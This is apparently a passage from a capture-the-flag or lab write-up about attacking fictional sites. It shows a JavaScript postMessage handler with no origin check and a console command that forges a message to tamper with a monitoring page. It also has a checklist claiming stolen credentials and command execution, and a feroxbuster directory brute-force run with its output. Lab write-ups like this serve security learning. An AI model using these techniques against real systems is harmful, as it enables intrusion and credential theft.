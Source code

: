 ```html
      outagesbody.className="progress-bar progress-bar-warning";
  }
  else if (capacity > 50) {
      //outages.style.backgroundColor =	'orange';
      outagesbody.className="progress-bar progress-bar-success";
  }
  else {
      //outages.style.backgroundColor =	'lightgreen';
      outagesbody.className="progress-bar progress-bar-info";
  }

  var outagesmsg = document.getElementById("outagesmsg");
  //outages.msg.innerHTML = message;

    }
    if (window.addEventListener) {// web browsers that nicely follow standards
  window.addEventListener("message", processMessage, false);
    }
    else {
  window.attachEvent("onmessage", processMessage);
    }
</script>
```

This has an hidden iFrame poiting to notify_outage.php.

To send commands do monitoring.site open the page hb_monitoring.php and on the javascript console send the command below.

```html
window.postMessage('{ "capacity" : 99, "summary" : "hacked" }', '*');
```

✔ 1 Find all the active and idle users on the chat
✔ 2 Steal other users' credentials
✔ 3 Find the website used by other users to login to the chat
✔ 4 Run arbitrary commands on http://monitoring.site

## Plus LFI and RCE

Run feroxbuster brute force on powerplant.site.

```
feroxbuster -u http://powerplant.site -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php -C 403 -n

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.3.3
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://powerplant.site
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💢  Status Code Filters   │ [403]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.3.3
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💲  Extensions            │ [php]
 🚫  Do Not Recurse        │ true
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
302        0l        0w        0c http://powerplant.site/index.php
301        9l       28w      318c http://powerplant.site/pages
```